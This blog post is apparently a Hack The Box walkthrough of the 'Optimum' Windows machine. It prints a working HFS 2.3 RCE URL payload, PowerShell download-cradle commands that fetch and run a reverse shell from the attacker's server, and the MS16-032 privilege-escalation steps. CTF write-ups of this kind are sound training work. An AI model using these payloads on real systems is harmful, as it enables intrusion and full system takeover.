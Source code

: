 ```yaml
---
layout: PostSimple
date: 2020-02-26
title:     "Hack The Box - Optimum"
tags: ['windows','easy','sherlock','empire','rce','nishang']
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/1.png)

We are going to pwn Optimum from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/6>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Only one port is opened which is ``HTTP``

## HTTP Enumeration

From the nmap result itself we know that the webpage is ``HttpFileServer httpd 2.3``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/2.png)

When I click the version, It redirects to it official homepage.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/3.png)

Since we know the version I started searching for exploits available for the version and found this 

>https://www.exploit-db.com/exploits/34668

From the above exploit we can do ``RCE`` on the url.
We can execute it by using `/?search=%00{.exec|cmd.}` on the url

Now we need to get a reverse shell from this.

I used [Nishang](https://github.com/samratashok/nishang)

>Nishang is a framework of scripts and payloads that enables using PowerShell for offensive security. By using this we can get the shell.

There is a lot of Shell I choosed ``nishang/Shells/Invoke-PowerShellTcp.ps1`` and copied that to my directory.

If we look at the Shell it gives us some of the examples.
```
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
```

I copied one of the example and changed it to my IP and paste it in bottom of the file.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/4.png)<br/>
This not only load the module but also the shell give me a callback.

## Getting User Shell

We need to start ``python`` server inorder to download it to the box. Started my ``netcat`` listener too.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/5.png)<br/>

Now its time to upload the module to the box

I used Powershell to do that 

```powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Invoke-PowerShellTcp.ps1')```

I added the location of the ``powershell.exe`` in windows along with the command and we already know for ``RCE``.

```
/?search=%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Invoke-PowerShellTcp.ps1').}
```

With URL encoded I passed it to burp.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/6.png)

``Status 200`` means it successfully downloaded to the box.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/7.png)

At the sametime I got the shell in ``nc listener``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/8.png)

## Privilege Escalation

Once I got a shell the first thing I check is ``systeminfo``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/20.png)<br/>
I found some ``Hotfix's``

>A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.

So we can use [Sherlock](https://github.com/rasta-mouse/Sherlock) to find the missing patches which will help us to Privilege Escalation.

>Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.

`Sherlock.ps1`

So we need to ``Find AllVulns`` Copy that and paste it in the bottom of the file as we did before.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/9.png)<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/10.png)

Our python server is already ON so we can download it in the box. No need to represent ``powershell(PS)`` because we already in a powershell.

> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Sherlock.ps1')

Once its executed it displays the output.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/11.png)

Only these are appears to be vulnerable.
```
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Appears Vulnerable
```

So I started from the first one which is ``MS16-032``. The [Powershell Empire](https://github.com/EmpireProject/Empire) have an exploit for this.

Its located in ``/data/module_source/privesc/Invoke-MS16032.ps1`` 

If we look at the script it gives the example of how it need to run.
```
 .EXAMPLE

        C:\PS> Invoke-MS16-032 -Command "iex(New-Object Net.WebClient).DownloadString('http://google.com')"
```

``Invoke-MS16032.ps1``
Copy the example and paste it in the bottom of the file with changes. I copied the same``Invoke-PowerShellTcp.ps1`` which we use to get initial shell as ``root.ps1`` to give us another reverse shell.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/12.png)

Note: ``Invoke-MS16032`` must be as same as in the top of the script.

``root.ps1``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/13.png)

On the box:

>IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Invoke-MS16032.ps1')

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/14.png)

We are System!!

## Method II (Using Metasploit)

> https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec

> use exploit/windows/http/rejetto_hfs_exec

Set LHOST and LPORT<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/15.png)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/16.png)

For privilege escalation, background the session and start ``local_exploit_suggester``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/17.png)

We already know its vulnerable to ``ms16_032``, So I used that exploit
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/18.png)<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/19.png)

We got authority\system !! 